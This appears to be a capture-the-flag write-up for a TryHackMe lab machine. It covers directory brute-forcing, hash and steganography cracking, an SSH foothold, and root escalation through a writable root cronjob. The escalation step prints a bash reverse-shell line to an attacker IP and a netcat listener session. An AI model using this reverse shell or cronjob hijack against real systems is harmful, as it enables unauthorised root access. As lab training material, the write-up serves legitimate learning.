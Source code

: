 # recon
nmap show us that there are 3 open port:
- 80 ngnix server
- 6498 ssh
- 65524 apache server

## port 80 ngnix 
I use `gobuster` to brute forcing web directory 
```console
$ gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
here is what I found:
- /h______ (Status: 301)
  - /w______
- /index.html (Status: 200)
- /robots.txt (Status: 200)
The first flag is in one of the directory. Note that the flag is encoded. encode it and summit ur flag.
## port 65524 apache
Same as port 80, use `gobuster` for directory brute forcing. In the meantime I was waiting for result from go buster. I looks around and find the 3rd flag. here is what I found with gobuster.
- /index.html (Status: 200)
- /robots.txt (Status: 200)
this is odd. but let go and check what we have. I found a encoded string hidden in `/index.html`. decode it and it will give you a hidden directory call `/n0th1__________`.

moreover, in robots.txt you will find a weird string:
```
User-Agent:a1867_______________
```
I use hash analyzer to check which hash type is that. then using `hashcat` to crack it: let move back to `/n0th1__________` directory.

here you will find
```html
<img src="binarycodepixabay.jpg" width="140px" height="140px"/>
<p>940________________________</p>
```
a picture which I guess that this picture might hiding something from us (steganography). I downloaded it and used `binwalk` to analyze the picture... didnt find anything. I then use `hexeditor` to analyze the picture. I was rigth about it, the picture include a hidden file. so I use `stegcracker` to crack it.

at this moment:
- hashcat is running
- stegcracker is running
- my laptop is screaming and burning...

back to `/n0th1__________`, this a some werid strings there too. THM give us a HINT that the string is a GOST Hash. use ur favorite search engines and find online hash cracking website. Boom! I got a password!!. 

**hint**: <details>I used this [site](https://md5hashing.net/hash/gost/)) to crack it</details>


I then stop my stegcracker. and run `steghide` to extrack a hidden file:
```console
kali@kali:~/THM$ steghide extract -sf index.jpeg 
Enter passphrase: 
wrote extracted data to "secrettext.txt".
```
At this point, we still missing flag 2. Base on what we found, the string that we found in *robots.txt* (User-Agent) should give us the flag. Since *rockyou.txt* contains only password, not thing like flag{soemthing}. Which is why my `hashcat` could not crack it. 


The solution was to find online hash cracking website. to gain 2nd flag. 
**hint:** 
<details> same site as GOST hash cracker.</details>

Back to the file we extracted from steghide
```console
kali@kali:~/THM$ cat secrettext.txt 
username:b____
password:
01101001 <and more>
```
note that password is in binary, decode it! now let ssh and get foothold on the victim machine.
# foot hold
let get user flag!!!
```console
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
<flaghere>
```
The hint said *User Flag But It Seems Wrong Like It`s Rotated Or Something*.... **Rotated**... Find out what it mean:
**hint:**
<details>ROT cipher</details>

# root
I tried to `sudo -l` but we dont have premission to do so. then I remember that it said in the room detail that *escalate your privileges through a vulnerable cronjob.* so lets do it!
```console
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
if you do not know what cronjob is, pls look it up. In short each 1 min a hidden bash script call `.mysecretcronjob.sh` is executed by root. the script is located at `/var/www/`. lucky the script is own by our current user which mean we have a permission to read and write the script.

The plan is modify the script to a reverse shell to gain root access. add this to the script
```sh
bash -i >& /dev/tcp/<kali ip>/6969 0>&1
```
now on your kali. open netcat and listen/wait for our reverse shell to be execute by cronjob as root:
```console
kali@kali:~$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.11.14.220] from (UNKNOWN) [10.10.111.241] 56080
bash: cannot set terminal process group (1741): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www#
```
now go grab root flag
**Hint**
<details>hidden...</details>
